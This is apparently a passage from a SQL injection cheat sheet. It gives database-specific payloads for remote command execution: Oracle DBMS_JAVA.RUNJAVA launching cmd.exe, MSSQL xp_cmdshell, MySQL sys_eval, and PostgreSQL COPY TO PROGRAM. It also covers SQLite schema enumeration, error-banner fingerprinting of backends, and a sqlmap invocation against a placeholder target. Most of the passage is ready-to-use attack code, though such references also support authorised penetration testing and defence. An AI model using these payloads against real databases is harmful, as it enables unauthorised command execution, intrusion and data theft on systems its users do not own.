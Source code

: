 **Oracle (Java-based RCE):**

```sql
SELECT DBMS_JAVA.RUNJAVA('java.lang.Runtime.getRuntime().exec("cmd.exe")') FROM dual;
```

### **Error Message Banners Enumeration (Non-Injection)**

We can extract info from generic errors even without full injection.

- 500 Internal Server Error → App crash
- `ODBC SQL Server Driver` → MSSQL backend
- `PG::SyntaxError` → PostgreSQL backend
- `ORA-00933: SQL command not properly ended` → Oracle

### **SQLite Specific Payloads**

Often overlooked, but used in mobile/web apps:

```sql
SELECT sqlite_version();
SELECT name FROM sqlite_master WHERE type='table';
```

### **Stored Procedure Abuse (MSSQL, MySQL)**

Run OS commands or escalate:

- MSSQL:

```sql
EXEC master..xp_cmdshell 'whoami';
```

- MySQL (if enabled):

```sql
CALL sys_eval('id');
```

### **PostgreSQL COPY Command with RCE**

```sql
COPY (SELECT '') TO PROGRAM 'id';
```

> PostgreSQL-specific, but often unmonitored in internal systems.
> 

## Tools & Automation

### 1. **sqlmap**

Common usage:

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
